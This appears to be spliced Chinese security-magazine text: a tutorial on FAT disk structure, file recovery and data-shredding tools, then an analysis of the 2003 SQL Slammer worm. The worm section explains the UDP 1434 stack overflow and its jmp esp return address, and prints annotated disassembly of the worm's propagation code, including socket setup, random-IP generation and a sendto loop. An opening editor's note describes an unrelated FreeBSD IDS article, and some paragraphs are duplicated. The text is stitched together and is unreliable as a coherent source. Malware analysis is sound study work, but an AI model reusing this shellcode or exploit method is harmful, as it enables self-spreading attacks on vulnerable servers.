
> 编后：本文为我们展示了如何打造 FreeBSD 平台下的分布式入侵检测系统，其安装步骤写得很详细，相信只要读者能够按作者写的去 step by step，也能成功打造出属于自己的完善的分布式入侵检测系统。

## 垃圾数据会泄密吗

### 一、垃圾数据的危害

在日常工作中，磁盘虽小，但作用很大。磁盘经过岁月蹉跎，总会有退役的一天。对于用户个人来说，或许会留作纪念。而对于大部分公司来说，可能就是将其随便处理一下（或许有的公司根本就没有对磁盘做任何数据清除处理）便丢弃了。殊不知就是因为这小小的废弃磁盘，可能就会导致公司各种内部资料的外泄。对于商家来说，这意味着严重的经济损失，而对于一个国家安全部门来说，这意味着……

朋友，当您的软盘损坏不能使用，随手将它丢弃的时候；当您的旧硬盘需要转让的时候，您有没有想过自己的秘密会被别人看到呢？即使您已经将上面的数据删除（Del 或者 Shift+Del），甚至进行了格式化、重新分区。如果硬盘或软盘上有公司的报表、技术资料等商业秘密，是否想过在不经意间这就可能让公司蒙受巨大损失呢？

现在有很多工具可以恢复用一般方法删除的数据，甚至连高级格式化几次后的磁盘上的数据都可以恢复。数据粉碎就是将磁盘上的垃圾数据彻底删除，使得通过一般的软件方法不能恢复。

对垃圾数据进行粉碎是非常必要的，这点我们还有理由反驳吗？下面我们就先从磁盘的结构和文件系统入手，先分析数据恢复的原理，然后讲解如何真正删除数据，最后介绍几种常用的数据恢复工具和数据粉碎工具。

对于新购置的磁盘，无论是软盘还是硬盘，都需要格式化后才能够使用。磁盘格式化分为两部分：低级格式化和高级格式化。

低级格式化（也叫物理格式化）生成磁盘的磁道和扇区。完整的扇区由地址标识（说明扇区的位置）及数据存储区组成。硬盘在出厂时已经做了低级格式化，除非确有必要，用户一般不需要对硬盘进行低级格式化。

高级格式化则是转换成对应某种操作系统的标准化格式。高级格式化是让操作系统管理磁盘的基础。

硬盘分区后，将会被划分为磁道、扇区和面。

**磁道：** 磁盘是典型的直接存取设备，为了随机存取磁盘中的数据，将磁盘划分成若干个同心圆，每个同心圆称为一个磁道。磁道个数与磁盘类型有关，3.5 英寸软盘容量为 1.44MB，分为 80 个磁道。每个磁道都有各自的编号，编号从最外面的磁道开始，为磁道 0。

**扇区：** 磁道又被划分成若干段，每段称为一个扇区（Sector）。一个扇区一般存放 512 字节的数据。扇区也需要编号，同一磁道中的扇区，分别称为 1 扇区、2 扇区等。同类型的磁盘及格式化方法不同，使得每个磁道的扇区数也不同，3.5 英寸软盘每磁道有 18 个扇区。

### 二、基础知识

#### 1. 磁盘的物理结构

对于新购置的磁盘，无论是软盘还是硬盘，都需要格式化后才能够使用。磁盘格式化分为两部分……

**面：** 一张软磁盘有两面，通常两面都用来存放信息。硬盘一般由若干个盘片组成。磁盘的面也用数字编号，最上面为 0 面，对应磁盘的每个面都有一个数据读写磁头，所以面和磁头个数是相同的。也可用磁头编号代表磁盘的面。

**柱面：** 所有磁盘的相同磁道称为一个柱面。

**绝对扇区：** 可以用磁头、柱面、扇区编号确定一个扇区的位置，称为绝对扇区，如 0 面 0 道 1 扇区是硬盘的主引导扇区。

**逻辑扇区号：** 将所有扇区从开始直到最后的扇区进行编号，便得到逻辑扇区号。

**磁盘分区：** 硬盘可以分区使用，一个分区就是硬盘上的一块连续区域。硬盘使用时必须将某个分区设置成活动分区，即使整个硬盘只用一个分区，初次使用时也需要进行分区设置。

**编者注：** 以上是磁盘中的一些最基本的概念。了解这些概念对于了解磁盘结构是非常重要的。

#### 2. 磁盘的逻辑结构

磁盘在使用前，要进行物理格式化、分区、逻辑格式化后才能使用。在格式化完毕之后，磁盘分为以下几部分：引导扇区（BOOT）、文件分配表（FAT）、文件目录表（FDT）和数据区，如表 1 所示。如果是硬盘，在 0 面 0 道 1 扇区还存在一个由分区命令 FDISK 形成的主引导扇区。它由主引导记录 + 分区表 + 有效标志组成。

### 表1 硬盘结构图

| 结构 |
|---|
| 主引导记录（MBR） |
| 分区表（DPT） |
| DOS 引导区（DBR） |
| FAT 表 |
| 根目录区（DIR） |
| 数据区（DATA） |

##### （1）MBR 区

MBR（Main Boot Record）为主引导记录区，位于整个硬盘的 0 磁道 0 柱面 1 扇区。在总共 512 字节的主引导扇区中，MBR 只占用了其中的 446 个字节（偏移 0—1BDH），另外的 64 个字节（偏移 1BEH—1FDH）交给了 DPT（Disk Partition Table，硬盘分区表），最后两个字节“55 AA”（偏移 1FEH—1FFH）是分区结束标志。这便构成了硬盘的整个主引导扇区。

主引导记录中包含了硬盘的一系列参数和一段引导程序。其中主引导程序的主要作用是检查分区表是否正确，并且在系统硬件完成自检以后引导具有激活标志的分区上的操作系统，并将控制权交给其启动程序。MBR 是由分区程序（如 Fdisk）所产生的，它不依赖任何操作系统，并且硬盘引导程序也是可以改变的，从而实现多系统共存。

##### （2）DBR 区

DBR（Dos Boot Record）是操作系统引导记录区的意思。它通常位于硬盘的 0 磁道 1 柱面 1 扇区，是操作系统可以直接访问的第一个扇区。它包括一个引导程序和一个被称为 BPB（Bios Parameter Block）的本分区参数记录表。DBR 是由高级格式化程序（即 Format.com 等程序）所产生的。

##### （3）FAT 区

在 DBR 之后的是 FAT（File Allocation Table，文件分配表）区。在解释文件分配表的概念之前，我们先来谈谈簇（cluster）的概念。

簇是磁盘文件存储的基本单位，每个簇的扇区数由磁盘类型决定，并由 FORMAT 程序建立。程序将新数据写入 1 个磁盘文件时，文件系统需找到磁盘上的未用扇区。操作系统要求每张盘都有个文件分配表，以找到文件所安排的扇区。但如果逐个扇区地跟踪将使效率太低。例如，1 个 10MB 的硬盘有 20000 个扇区，每个扇区都跟踪将使表很大。查这张 FAT 大表也很花时间。如果文件分配表小些，则搜索将更快，文件访问也更快。较好的解决方法是将扇区分组，当需要使用磁盘上的剩余空间时，便分配给该文件一组扇区。此分组称之为扇区分簇，它能使文件系统更有效地根据内存需求来管理文件分配表。盘簇（简称为簇）即是一组固定数目的扇区。

> **编者注：** 簇在文件系统中是一个非常重要的概念，后面我们还会接触到簇链（数据恢复中很难缺少的部分）。

文件占用磁盘空间时，基本单位不是字节而是簇。簇的大小与磁盘规格有关。一般情况下，软盘每簇是 1 个扇区，硬盘每簇的扇区数与硬盘总容量大小有关，可能是 4、8、16、32、64 个扇区等。

每个磁盘上的可用簇都有一个登记项，表示该簇是在使用、空闲或者已经损坏。文件存储时以簇为最小单位进行分配。如果文件要占用两个或两个以上的簇，并且这些簇在磁盘上很可能不是连续的，这样就带来了其他一些问题：访问文件时如何定位文件的各个部分、分配磁盘空间时如何知道某个簇是否空闲等。这些问题都是通过使用 FAT（即文件分配表）来完成的。硬盘上必须准确地记录哪些簇已经被文件占用，还必须为每个已占用的簇指明存储后继内容的下一个簇的簇号；对一个文件的最后一簇，则要指明本簇无后继。这些都是由 FAT 表来保存的，表中有很多表项，每项记录一个簇的信息。

表示相应簇的使用状态如下（以 FAT16 为例）：

- 簇为空白，表示没有任何文件使用到它，其值为 0000H；
- 簇包含了一个或数个不可使用的受损扇区，其值为 FFF7H；
- 此簇为文件的最后一个簇，其值为 FFF8H-FFFFH；
- 如果簇已经被使用但不是文件的最后一个簇，那么 FAT 记录表会记录其下一个簇的位置，值为 0002H-FFEFH。

对于每一个逻辑分区，可用簇的编号都是从 2 开始的（0 号和 1 号由系统保留）。

既然 FAT 对于文件管理如此重要，所以 FAT 有一个备份，即在原 FAT 的后面再建一个同样的 FAT。这样一旦第一个 FAT 被破坏，就可以将第二个 FAT 拷贝到第一个 FAT 进行恢复。

> 编者注：FAT 表实际上就是各个簇使用信息的集合。譬如对于 FAT32 来说，每个簇就对应 FAT 表中的 32 位（即 4 个字节）。通过这张 FAT 表，文件系统可以找到每个文件对应的簇链。  
> 编者注：这第二个 FAT 表往往是很多数据恢复实例中的关键！

当操作系统需要建立文件时，它总是首先搜索 FAT，跳过所有已分配的簇去找到第一个可用簇（其项值为 0），然后将该簇号作为该文件的起始簇号写到文件目录表目录登记项的相应域中，并将数据存入该簇中。如果文件大小小于一个簇，则将此 FAT 项的值改为文件结束标志。如果一个簇存不下该文件，则会继续查找下一个值为 0 的 FAT 项，然后在前一个 FAT 项中写入这个 FAT 项对应簇的簇号，依次类推，直至找到满足文件长度的全部可用簇。这样就形成了一个簇链，并在最后一个簇中填入文件结束标志。访问文件时，顺着这条链就可以找到全部文件内容。

对于硬盘的每一个逻辑分区，即每一个盘符所代表的磁盘空间，其都有自己的文件分配表。FAT 中有许多项，这些项和磁盘中的簇一一对应。

##### （4）DIR 区

DIR（Directory）是根目录区，紧接着第二 FAT 表（即备份的 FAT 表）之后，记录着根目录下每个文件（目录）的起始单元、文件属性等。定位文件位置时，操作系统根据 DIR 中的起始单元，结合 FAT 表就可以知道文件在硬盘中的具体位置和大小了。

每个文件目录由一个个 32 字节组成，其中（以 FAT32 为例）：

- 0~7 字节表示文件名：第 0 个字节为 00h 时，表示该目录项未使用；
- 第 0 个字节为 E5h 时，表示该目录项已被删除；

> 提醒：注意这里目录项被删除后的描述（第 0 个字节为 E5h）。

8~10 字节表示文件扩展名。

11字节表示文件属性：为01h，表示只读文件；为02h，表示隐藏文件等；

13～15字节表示文件建立时间；

16～17字节表示文件建立日期：其中的高7位为相对于1980年的年份值，次4位为月份，后5位为月内日期。

18～19字节表示文件最新访问日期；

20～21字节表示文件的起始簇号的高16位，高字节在高位，低字节在低位；

22～25字节表示文件的创建访问的时间日期；

26～27字节表示文件的起始簇号的低16位，高字节在高位，低字节在低位；

28～31字节表示文件的长度（以字节为单位）。

> 提醒：请注意这里最关键的两个位置20～21、26～27，这4个字节（32位）给出了一个文件对应的首簇号；通过这个首簇号文件系统可以找出整个文件对应的簇链。

在文件系统中，我们要访问一个文件时是按名存取的，系统根据我们给出的目录和文件名在相应的文件目录项中查找，找到后就按照该目录项的20～21、26～27字节给出的起始簇号访问该文件，如果该文件不止放在一个簇中，还要访问FAT表，读取下一个簇。

##### （5）数据（DATA）区

数据区是真正意义上的数据存储的地方，位于DIR区之后，占据硬盘上的大部分数据空间。

> 提示：一般的文件删除后，其数据区是没有作修改的。这也正是删除后的文件数据还可以顺利恢复的原因。

### 三、数据还原及数据粉碎

### 1．文件的删除过程

由上面的分析，我们知道文件在磁盘上存储的时候并不仅仅是存储了数据，还包括文件目录项和FAT表中的信息。

在Windows中，当我们不按住“Shift”删除文件时，实际上是把该文件放到了一个隐藏的文件夹，就是回收站中，我们可以很方便地恢复。当我们按住“Shift”删除文件的时候，系统做以下动作：

- 1. 把该文件目录项中的第0个字节设置为E5h，标志该目录项已被删除，同时将20、21字节和26、27字节即该文件起始簇的低位和高位字节（FAT16只需设置26、27字节为0）清0；
- 2. 把该文件在FAT1表中的登记项改为0000H，标志该簇为空，并没有改动FAT2表，而且真正存放数据的簇也没有被清零。

注意：真正存放数据的簇并没有被清零，这就是一些数据恢复工具如Norton磁盘医生、FinalData等能把数据恢复的原因，这些工具可以搜索整个磁盘，将已经删除的文件的簇重新串起来，从而恢复文件。

这样有的人会问，我格式化或者重新分区总可以了吧，其实不然。高级格式化是重新建立FAT表和根目录，重新分区是重建分区表，原来磁盘上的数据都没有损害，同样有恢复的可能（低级格式化是重建磁道，恢复起来比较困难，需要专门硬件的帮助）。

在文件系统中，目录和文件采用的是相同的管理方法，目录在目录表中同样会有目录项。删除目录的时候，首先删除目录中的文件，就是上面的过程，然后系统会把该目录的目录项清零。

> 提醒：据说，经过20次格式化的硬盘，数据同样可以恢复，甚至是被覆盖的数据也有被恢复的可能，不过这已经不是一般技术可以做到的；这里面涉及到写磁深浅的问题（通常我们认为数据由0和1组成，您是否想过还有0.5、0.6之类的数据呢），并且需要专门的硬件支持。

### 2．文件恢复的方法

要恢复被删除的文件，只能根据删除后留下的东西去做文章。文件被删除后留下了什么呢？分析后得知：其一，留下了文件的内容；其二，留下了现场信息，如文件目录项、FAT2中的信息。

- 1) 根据第二个FAT表进行恢复

前面介绍过，FAT表有两个，其中第二个是用来备份的。如果第二个FAT表没有被破坏，可以用第二个FAT表中的值覆盖第一个FAT表中相应的值，就可以恢复该文件的簇链，达到恢复的目的。

- 2) 根据磁盘现场进行恢复

如果文件被删除，现场未被破坏（即文件被删除后硬盘未发生过写操作），而且假定只删除了一个文件，那么可根据系统的分配算法进行恢复。因为系统建立一个文件时，必定根据某一特定的分配算法决定文件占用的数据块位置。而当该文件被删除后，它所占用的数据块被释放，又回到系统的分配表中，这时如果重新建立一个文件，系统根据原来的分配算法分配出的数据块必定跟该文件原来占用的数据块一致，而且如果我们知道该文件所占的字节数，只要调用系统的数据分配算法，在系统中一块块地申请数据块，就可以实现恢复。

这种策略的缺点是明显的，现在的操作系统都是多进程、多用户系统，它每一次开关机，其他任务建立文件、删除文件等都会破坏硬盘现场。

- 3) 根据内容恢复

(1) 关键字搜索法

如果知道被删除的文件内容中若干字节的内容，而且该文件长度又不超过一个簇，那么可以在整个文件系统中搜索这一字节串，得出一个文件所在的数据块，将它们的块号填入一个空目录项中，即可恢复一个文件。这里我推荐一款功能强大的编辑工具WinHex，它可以对磁盘进行编辑，列出磁盘上的所有扇区，可以按照字符串、整数、16进制数的方式在所有扇区中进行查找。

(2) 精确长度搜索法

如果知道被删除文件的精确长度（字节数），那么可根据一个数据块的大小，计算出文件的最后一个数据块中数据的精确长度，该数据块中其他字节必然是全0。根据这一条件，通过搜索整个文件系统，找出其中符合条件的数据块，若出现多个块符合要求，则还需要根据其他条件区分。

(3) 内容关联法

如果知道文件内容中存在某种可实现的关联，例如文件的校验和，或者文件内容的某种上下文关系，那么也可通过搜索整个文件系统，通过反复尝试寻找符合关联条件的磁盘数据块，进而恢复一个文件。

#### 3. 数据粉碎方法

现在大家明白了吧，只要磁盘上的数据部分没有被删除或者替换，就有可能恢复原来的文件。所以我们要想彻底删除一个文件，方法就是将该文件所在的簇上的数据用垃圾数据全部替换掉，这样就算能够找到这些簇，得到的也是一些无用的数据，不能恢复原来的文件了。向要删除文件所在的簇多次写入垃圾数据，这就是大部分数据粉碎工具如Clean Disk Security、Smart Real Delete等的工作原理。有的数据粉碎工具还可以采用不同算法如Gutmann对该文件进行覆盖，并且将该文件的名字、创建时间、大小等信息全部清零。

数据粉碎后应该保证关于该文件的一切信息（文件目录项、FAT表中登记的项、文件所占用的簇）都被清零，不能被恢复。

> 编者语：对于我们一般用户来说，最适用的可能还是现成的数据粉碎工具。既然有这些工具，我们没有理由不拿来合理利用。

### 四、工具介绍

下面我们介绍一些常见的数据恢复工具和数据粉碎工具。

#### 1. 数据恢复工具

FinalData Standard：在硬盘分区表完全破坏，连硬盘都无法找到的情况下还能恢复硬盘数据。在Windows环境下删除一个文件，只有目录信息从FAT或者MFT（NTFS）删除。这意味着文件数据仍然留在您的磁盘上。所以从技术角度来讲，这个文件是可以恢复的。FinalData就是通过这个机制来恢复丢失的数据的，在清空回收站以后也不例外。另外，FinalData可以很容易地从格式化后的文件和被病毒破坏的文件恢复。甚至在极端的情况下，如果目录结构被部分破坏也可以恢复，只要数据仍然保存在硬盘上。



图1 File Pulverizer

Harddisk Data Recovery：硬盘文件系统恢复工具，该工具不像其他修复工具需要写入数据从而有可能把您的硬盘搞得更糟，它可以在内存重建文件系统，并可以安全地把数据传输到另外一个设备；支持FAT16/32、NTFS。

EasyRecovery：非常强大的硬盘数据恢复工具，能够帮您恢复丢失的数据以及重建文件系统。EasyRecovery不会向您的原始驱动器写入任何东西，它主要是在内存中重建文件分区表使数据能够安全地传输到其他驱动器中。您可以从被病毒破坏或是已经格式化的硬盘中恢复数据。该软件可以恢复大于8.4GB的硬盘。支持长文件名。被破坏的硬盘中像丢失的引导记录、BIOS参数数据块、分区表、FAT表、引导区都可以由它来进行恢复。



图2 Clean Disk Security

磁盘医生NDD：著名的磁盘工具，是Norton工具集的一部分，可以说它是磁盘工具的开山鼻祖，功能非常强大。

> 编者注：如果我们的数据不小心被误删除了，大家不必惊慌，保持冷静，以上工具可以作为我们弥补遗憾的首选。

#### 2. 数据粉碎工具

- 1) File Pulverizer

这是一款操作简单的文件删除工具，它可以连续30次对需要删除的文件进行写入式覆盖，之后再进行彻底删除，即使不幸被人恢复了，其得到的也只是一堆随机生成的英文字母。操作界面如图1所示。

File Pulverizer可以彻底删除目录和文件，在左边是要删除的文件或目录的列表，通过右边的添加目录或添加文件将之添加到右边的列表中，点击开始粉碎就可以彻底删除一个文件或目录。

- 2) Clean Disk Security

它是强大的数据粉碎机，能够彻底删除指定的文件，用以保护机密文件。界面现代化，使用简单，粉碎速度快，效果全面。操作界面如图2所示。

Clean Disk Security可以选择4种擦除方法：简单擦除、NIS擦除、Gutmann擦除和测试模式，其中Gutmann擦除最安全，不过要花较长时间。

- 3) Smart Real Delete

文件彻底删除器，文件的每一位都被随机重写若干次，以保证不可恢复。由于篇幅关系，这里不再详细介绍。大家可以自己试试效果。

友情提醒：以上软件均可以在光盘中找到。

> 点评：垃圾数据处理，对于更多的公司和安全部门来讲是个非常严肃的话题。在这个逐渐高度信息化的电子时代，一个小小的差错可能导致一笔生意的失败，也可能导致一场灾难的降临。各位朋友，您做到了吗？

目前，由于许多网络管理员取消了路由器上的控制措施，导致大量 Slammer 蠕虫死灰复燃，再次对网络造成一定的影响和破坏。从检测结果来看，Slammer 蠕虫感染的计算机仍然大量存在。


## SQL 蠕虫王是怎样炼成的

### 一、概述

北京时间2003年01月25日，SQL蠕虫王爆发，全球互联网络访问速度减慢甚至阻塞，国内网络大面积瘫痪。通过对捕获的数据样本分析和研究，发现这是一种新出现的针对 Microsoft SQL Server 2000 的蠕虫。该蠕虫本身非常小，仅仅是一段376个字节的数据。利用的安全漏洞是“Microsoft SQL Server 2000 Resolution服务远程栈缓冲区溢出漏洞”，蠕虫利用的端口是 UDP/1434，该端口是 SQL Server Resolution 服务。

Microsoft SQL Server 2000 支持在单个物理主机上提供多个SQL服务器的实例；在对每个实例操作时，都可以将其看作是一个单独的服务器。不过多个实例不能全部使用标准SQL服务会话端口（TCP 1433），所以 SQL Server Resolution 服务监听在 UDP 1434 端口，提供一种使客户端查询适当的网络终端用于特殊的 SQL 服务实例的途径。

当 SQL Server Resolution 服务在 UDP1434 端口接收到第一个字节设置为0x04的UDP包时，SQL监视线程会获取UDP包中的数据并使用此用户提供的信息来尝试打开注册表中的某一键值。如发送\x04\x41\x41\x41\x41类似的UDP包，SQL服务程序就会打开如下注册表键：HKLM\Software\Microsoft\Microsoft SQL Server\AAAA\MSSQLServer\CurrentVersion。

攻击者可以通过在这个UDP包后追加大量字符串数据，当尝试打开这个字符串相对应的键值时，会发生基于栈的缓冲区溢出。通过包含“jmp esp”或者“call esp”指令的地址覆盖栈中保存的返回地址，可导致SQL Server进程的权限在系统中执行任意指令。蠕虫溢出成功取得系统控制权后，就开始向随机IP地址发送自身，由于这是一个死循环的过程，发包密度仅和机器性能与网络带宽有关，所以发送的数据量非常大。

在实际的测试中发现，如果在同一网段中有一台机器中了SQL蠕虫王，该网段中的每一台机器每秒钟都可以收到近千个UDP数据包。该蠕虫对被感染机器本身并没有进行任何恶意破坏，它仅存在内存之中，不会向硬盘上写文件。因此对于感染的系统，重新启动后就可以清除该蠕虫；但是如果不及时打上补丁，仍然会重复感染。由于发送数据包占用了大量系统资源和网络带宽，形成UDP Flood，因此感染了该蠕虫的网络性能会急剧下降。一个百兆网络内只要有一两台机器感染该蠕虫就会导致整个网络访问阻塞。

### 二、具体分析

### 1. SQL蠕虫王所发包的具体内容

通过抓包分析，我们得到SQL蠕虫王的攻击包如下：


```asm
00401000 EB0E        jmp loc_00401010
00401002 0101        add [ecx], eax
00401004 0101        add [ecx], eax
00401006 0101        add [ecx], eax
00401008 0170AE      add [eax-52h], esi
0040100B 42          inc edx
00401012 90          nop
00401016 90          nop
00401017 90          nop
00401018 68DCC9B042  push 42B0C9DCh
; 开始重新写回包中损坏的数据
0040101D B801010101  mov eax,1010101h
00401022 31C9        xor ecx,ecx
00401024 B118        mov cl,18h
; 往堆栈中压入60H个01
00401026            loc_00401026:
00401026 50          push eax
00401027 E2FD        loop loc_00401026
00401029 3501010105  xor eax,5010101h
; 此时eax=04000000
0040102E 50          push eax
0040102F 89E5        mov ebp,esp
; 此时整体包已重新构造完毕……
00401031 51          push ecx
00401032 682E646C6C  push 6C6C642Eh
00401037 68656C3332  push 32336C65h
0040103C 686B65726E  push 6E72656Bh
; kernel32.dll字符串进栈
00401041 51          push ecx
00401042 686F756E74  push 746E756Fh
00401047 6869636B43  push 436B6369h
0040104C 6847657454  push 54746547h
; GetTickCount函数名字串入栈
00401051 66B96C6C    mov cx,6C6Ch
00401055 51          push ecx
00401056 6833322E64  push 642E3233h
0040105B 687773325F  push 5F327377h
; ws2_32.dll字符串入栈
00401060 66B96574    mov cx,7465h
00401064 51          push ecx
00401065 68736F636B  push 6B636F73h
; socket函数名字字符串进栈
```

以上是整个UDP包的全部内容。第一个框中的14个字节为帧头，第二个框中的8个字节为UDP头，它们之间的20个字节为IP头。从04开始以后的376个字节便是该蠕虫的关键部分。

### 2．代码分析

该蠕虫由被攻击机器中的sqlsort.dll存在的缓冲区溢出漏洞进行攻击，获得控制权。随后分别从kernel32.dll以及ws2_32.dll中获得GetTickCount函数和socket以及sendto函数地址。紧接着调用GetTickCount函数，利用其返回值产生一个随机数种子，并用此种子产生一个IP地址作为攻击对象，随后创建一个UDP socket，将自身代码发送到目标IP的1434端口，随后进入一个无限循环中，重复上述产生随机IP地址、发送攻击包等一系列动作。

上面代码的前一部分，它构造了一个缓冲区溢出的数据包。其中，DC C9 B0 42部分是被替换的返回地址，而该地址0x42B0C9DC是指向sqlsort.dll中的一条指令jmp esp，因此当处理数据包的函数RET指令返回时，ESP正好指向EB 0E（JMP $+0x0E），其执行时会马上跳到90处开始执行，一串空指令后，便开始病毒正式代码的执行。

上面代码反汇编后，如下所示：

```asm
0040106F 6873656F64      push 646E6573h
; sendto 函数字符串入栈
00401074 BE1810AE42      mov esi,42AE1018h
; 从 IAT 中直接获得 Loadlibrary 的函数地址
00401079 8D45D4          lea eax,[ebp-2Ch] ; 字符串 ws2_32.dll 的开始位置
0040107C 50              push eax
; 上面的 dll 串首址进栈，Loadlibrary 函数的参数
0040107D FF16            call dword ptr [esi] ; 调用 Loadlibrary 函数
0040107F 50              push eax ; 将 ws2_32.dll 的模块地址压入堆栈
00401080 8D45E0          lea eax,[ebp-20h]
; 得到 GetTickCount 函数字符串首地址
00401083 50              push eax
; 首地址入堆栈，作为后面 GetProcAddress 的参数
00401084 8D45F0          lea eax,[ebp-10h] ; 获得 kernel32.dll 字符首地址
00401087 50              push eax
; kernel32.dll 字符首地址入栈
00401088 FF16            call dword ptr [esi]
; 调用 Loadlibrary 函数
0040108A 50              push eax
; kernel32.dll 模块地址入栈，作为后面 GetProcAddress 的参数
0040108B BE1010AE42      mov esi,42AE1010h
; 从 IAT 中获得 GetProcAddress 函数地址
00401090 8B1E            mov ebx,[esi]
00401092 8B03            mov eax,[ebx]
00401094 3D558BEC51      cmp eax,51EC8B55h
; 判断是否取用了 GetProcAddress 真正地址
00401099 7405            jz loc_004010A0
0040109B BE1C10AE42      mov esi,42AE101Ch
; 从 IAT 中获得 GetProcAddress 真正地址的存放地址
004010A0 FF16            call dword ptr [esi]
; 调用 GetProcAddress，获得 GetTickCount 函数地址
004010A2 FFD0            call eax
; 调用 GetTickCount 函数
004010A4 31C9            xor ecx,ecx
004010A6 51              push ecx
004010A7 51              push ecx
```

```asm
004010A8 50              push eax ; eax 为通过 GetTickCount 获得的随机数
004010A9 81F10301049B    xor ecx,9B040103h
004010AF 81F101010101    xor ecx,1010101h
004010B5 51              push ecx
; ecx,9A050002 => port 1434(59AH) / AF_INET(02)
004010B6 8D45CC          lea eax,[ebp-34h] ; 获得 socket 函数字符串地址
004010B9 50              push eax
; 参数入栈
004010BA 8B45C0          mov eax,[ebp-40h] ; ws2_32.dll 的模块基地址
004010BD 50              push eax
004010BE FF16            call dword ptr [esi] ; 调用 GetProcAddress 函数
004010C0 6A11            push 11h ; 参数 protocol
004010C2 6A02            push 2 ; 参数 type, SOCK_DGRAM，使用 UDP 协议
004010C4 6A02            push 2 ; AF_INET，套接字的地址格式
004010C6 FFD0            call eax
; 调用 socket 函数
004010C8 50              push eax ; 返回的套接字句柄进栈
004010C9 8D45C4          lea eax,[ebp-3Ch] ; sendto 函数字符串首址
004010CC 50              push eax
004010CD 8B45C0          mov eax,[ebp-40h] ; ws2_32.dll 的模块基地址
004010D0 50              push eax
004010D1 FF16            call dword ptr [esi] ; 调用 GetProcAddress 函数
004010D3 89C6            mov esi,eax
; 得到 sendto 函数地址
004010D5 09DB            or ebx,ebx
004010D7 81F33C61D9FF    xor ebx,0FFD9613Ch
004010DD 8B45B4          mov eax,[ebp-4Ch]
; 上面 GetTickCount 函数得到的随机数放到 eax 中
004010E0 8D0C40          lea ecx,[eax+eax*2] ; 开始进行运算，得到随机 IP
004010E3 8D1488          lea edx,[eax+ecx*4]
004010E6 C1E204          shl edx,4
```

```asm
004010E9 01C2      add edx,eax
004010EB C1E208    shl edx,8
004010EE 29C2      sub edx,eax
004010F0 8D0490    lea eax,[eax+edx*4]
004010F3 01D8      add eax,ebx
...
0040110F FFD6      call esi   ; sendto
00401111 EBCA      jmp loc_004010DD
```

上面我们将相关代码作了详细注释，堆栈的具体分配情况如下所示：

| 堆栈地址 | 存放字节说明 |
|---|---|
| ebp+67 -- esp+64 | 42B0C9DCh / 包的剩余部分 |
| ebp+63 -- ebp+4 | 60h 个 0 |
